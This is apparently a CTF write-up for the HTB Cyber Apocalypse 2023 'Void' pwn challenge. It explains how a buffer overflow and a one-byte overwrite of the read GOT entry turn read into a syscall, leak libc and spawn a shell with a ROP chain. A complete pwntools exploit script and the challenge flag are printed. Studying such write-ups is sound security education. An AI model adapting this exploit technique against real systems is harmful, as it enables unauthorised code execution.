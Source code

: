 # Void - HTB Cyber Apocalypse 2023
> Writeup Author: [Mymaqn](https://github.com/Mymaqn)
>
> [`pwn_void.zip`](pwn_void.zip)


## Description

The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.

## Solution
The binary is tiny, and only calls read to take our user input. This has a buffer overflow in it.

Checksec
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```

This is obviously a ret2dlresolve challenge.

However I don't like ret2dlresolve as I don't know how to do it. And to be honest I feel like the technique is not even useful at all. So far I've solved 12/12 challenges which had the intended solution of using ret2dlresolve, without using ret2dlresolve. I'm not about to start learning the technique now!

Since the binary uses read, I took a look at the LSB of read in the GOT, to see if I could overwrite it to become syscall. The answer to that question is yes.

The general flow of exploitation with ROP is then:

1. Call read to overwrite the LSB of the read GOT. So it becomes syscall instead
2. Since overwriting LSB is a one byte read. RAX contains 1. We can now call the Read GOT and instead leak the full GOT
3. Restore the read GOT by jumping to read plt+6. This will re-resolve read and restore its GOT
4. Receive leak and pop shell

Exploit:

```py
from pwn import *

context.binary = "./void"
padding = b'A'*72

io = remote("165.232.108.240",30338)

poprsir15 = p64(0x00000000004011b9)
read = p64(0x00401030)
vuln = p64(0x00401122)
ret = p64(0x0000000000401016)
re_resolve_read = p64(0x00401036)
poprdi = p64(0x00000000004011bb)



payload = [
    #Overwrite LSB so read becomes syscall
    padding,
    poprsir15,
    p64(0x404018),
    p64(0xdeadbeef),
    read,
    #Leak the GOT. RAX is already 1
    poprsir15,
    p64(0x404018),
    p64(0xdeadbeef),
    poprdi,
    p64(0x1),
    read,
    #Resolve read back to being read again
    poprdi,
    p64(0x0),
    re_resolve_read,
    vuln
]
payload = b''.join(payload)
sleep(0.1)
io.send(payload)
sleep(0.1)
io.send(b'\x8c')
sleep(0.1)
io.send(b'\x80')

#Receive leak
leak = u64(io.recv(8))
libc_base = leak-0xec78c
print(f"LIBC BASE {libc_base:#x}")


#Spawn shell
poprsi = p64(libc_base+0x000000000002590f)
poprdx = p64(libc_base+0x00000000000c8acd)
poprax = p64(libc_base+0x000000000003be88)
syscall = p64(libc_base+0x00000000000550da)
binsh = p64(libc_base+0x00196152)


payload = [
    padding,
    poprdi,
    binsh,
    poprsi,
    p64(0),
    poprdx,
    p64(0),
    poprax,
    p64(59),
    syscall
]

payload = b''.join(payload)
sleep(0.1)
io.send(payload)


io.interactive()
```

## Flag
As expected. The intended solution was ret2dlresolve, and now I'm 13/13 :D

`HTB{r3s0lv3_th3_d4rkn355}`